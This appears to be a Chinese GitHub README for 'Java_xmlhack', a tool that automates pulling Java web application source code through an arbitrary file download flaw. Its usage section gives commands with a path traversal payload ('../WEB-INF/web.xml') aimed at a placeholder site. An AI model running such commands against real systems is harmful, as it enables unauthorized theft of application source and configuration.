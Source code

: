 # Java_xmlhack
帮助java环境下任意文件下载情况自动化读取源码的小工具

## 想法
[https://art3mis.top/2019/04/04/%e5%85%b3%e4%ba%8ejava%e7%9a%84%e4%bb%bb%e6%84%8f%e6%96%87%e4%bb%b6%e8%af%bb%e5%8f%96/]https://art3mis.top/2019/04/04/%e5%85%b3%e4%ba%8ejava%e7%9a%84%e4%bb%bb%e6%84%8f%e6%96%87%e4%bb%b6%e8%af%bb%e5%8f%96/
## 使用
```bash
git clone https://github.com/Artemis1029/Java_xmlhack.git
cd Java_xmlhack
# if get
python xmlsearch.py -u https://xxx.xxx/?file=../WEB-INF/web.xml -c="cookie"
# if post
python xmlsearch.py -u https://xxx.xxx/ -d="file=../WEB-INF/web.xml" -t="content-type(default application/x-www-form-urlencoded)" -c="cookie"
```
